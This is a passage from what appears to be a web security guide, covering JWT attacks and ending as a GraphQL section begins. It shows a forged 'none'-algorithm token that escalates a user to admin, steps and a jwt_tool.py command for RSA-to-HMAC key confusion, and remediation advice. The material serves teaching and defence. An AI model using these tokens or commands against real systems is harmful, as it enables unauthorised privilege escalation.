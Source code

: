 ### Real-World Example

**Scenario:** 'none' Algorithm Attack

**Original JWT:**
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlcklkIjoxMDAsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNTE2MjM5MDIyfQ.J5y2B7FV1Di04YWn_DYZKQhJ4ayHD0e7DL0QwEcxTXs
```

**Decoded Payload:**
```json
{
  "sub": "1234567890",
  "userId": 100,
  "role": "user",
  "iat": 1516239022
}
```

**Attack Payload:**
```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlcklkIjoxMDAsInJvbGUiOiJhZG1pbiIsImlhdCI6MTUxNjIzOTAyMn0.
```

**HackerOne Report:** [#1003415 - JWT Key Injection Attack](https://hackerone.com/reports/1003415)

### Advanced Attack: RSA Key Confusion

1. Extract public key (certificate) from the target
2. Convert RSA public key to HMAC secret
3. Sign a malicious JWT with the public key as HMAC secret

```bash
# Using jwt_tool.py
python3 jwt_tool.py <token> -X k -pk public.pem
```

### Remediation

1. **Use Strong Algorithms (RS256, ES256)**
2. **Validate All Parts of the JWT**
3. **Set Proper Expiration (exp) and Not Before (nbf) Claims**
4. **Implement Key Rotation**
5. **Use Library-Specific Protections:**
```javascript
// Node.js with jsonwebtoken
jwt.verify(token, secret, { algorithms: ['RS256'] });
```

---

## GraphQL Vulnerabilities

GraphQL can introduce unique security challenges if not properly implemented.
